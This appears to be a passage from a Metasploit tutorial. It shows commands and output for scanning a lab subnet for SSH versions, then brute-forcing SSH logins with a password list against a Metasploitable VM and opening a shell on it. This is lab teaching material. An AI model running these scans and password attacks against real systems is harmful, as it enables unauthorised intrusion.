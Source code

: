 ###### Detecting SSH Version

```
msf > use auxiliary/scanner/ssh/ssh_version 
msf auxiliary(ssh_version) > set RHOSTS 192.168.216.0/24
RHOSTS => 192.168.216.0/24
msf auxiliary(ssh_version) > set THREADS 256
THREADS => 256
msf auxiliary(ssh_version) > run

...
[*] Scanned 133 of 256 hosts (51% complete)
[*] Scanned 232 of 256 hosts (90% complete)
[*] Scanned 250 of 256 hosts (97% complete)
[*] Scanned 255 of 256 hosts (99% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

###### SSH Login Check Scanner

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set USERNAME user
USERNAME => user
msf auxiliary(ssh_login) > set PASS_FILE /root/password.lst
PASS_FILE => /root/password.lst
msf auxiliary(ssh_login) > set RHOSTS 192.168.216.10,129
RHOSTS => 192.168.216.10,129
msf auxiliary(ssh_login) > set STOP_ON_SUCCESS true 
STOP_ON_SUCCESS => true
msf auxiliary(ssh_login) > set THREADS 256
THREADS => 256
msf auxiliary(ssh_login) > run

[*] Scanned 1 of 2 hosts (50% complete)
[+] 192.168.216.129:22 - Success: 'user:user' 'uid=1001(user) gid=1001(user) groups=1001(user) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Command shell session 1 opened (192.168.216.5:39227 -> 192.168.216.129:22) at 2017-10-21 06:11:14 -0400
[*] Scanned 2 of 2 hosts (100% complete)
[*] Auxiliary module execution completed
```

To interact with the new session, use the sessions command with the -i option to interact with the session and supply the session ID, in this case 1:

```
msf auxiliary(ssh_login) > sessions -i 1
[*] Starting interaction with 1...

hostname
metasploitable
id
uid=1001(user) gid=1001(user) groups=1001(user)
```
